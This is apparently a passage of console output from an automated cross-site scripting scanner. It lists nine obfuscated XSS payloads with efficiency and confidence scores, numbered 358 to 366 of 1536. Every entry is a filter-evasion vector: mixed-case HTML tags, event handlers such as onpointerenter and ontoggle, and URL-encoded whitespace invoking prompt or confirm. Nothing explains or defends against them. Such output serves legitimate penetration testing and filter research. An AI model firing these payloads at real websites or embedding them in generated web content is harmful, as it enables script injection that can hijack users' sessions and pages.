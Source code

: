 ------------------------------------------------------------
 Payload: <DetAiLs%09onpoINtEReNTEr%0d=%0d(prompt)``%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 358/1536
 
------------------------------------------------------------
 Payload: <hTml/+/oNMoUsEoveR+=+a=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 359/1536
 
------------------------------------------------------------
 Payload: <detaiLs/+/oNtOggLE%0d=%0d(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 360/1536
 
------------------------------------------------------------
 Payload: <dETAILS%0aonTOGGLe+=+[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 361/1536
 
------------------------------------------------------------
 Payload: <HTmL%0aOnpoinTEReNTEr+=+(confirm)()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 362/1536
 
------------------------------------------------------------
 Payload: <dETaiLS%09oNTOGgle%0a=%0aa=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 363/1536
 
------------------------------------------------------------
 Payload: <A%0aONPoINtErEntEr%09=%09[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 364/1536
 
------------------------------------------------------------
 Payload: <A/+/oNpoInTeRENTer%0d=%0d[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 365/1536
 
------------------------------------------------------------
 Payload: <HtMl%0dONpOinTerenter%09=%09[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 366/1536
 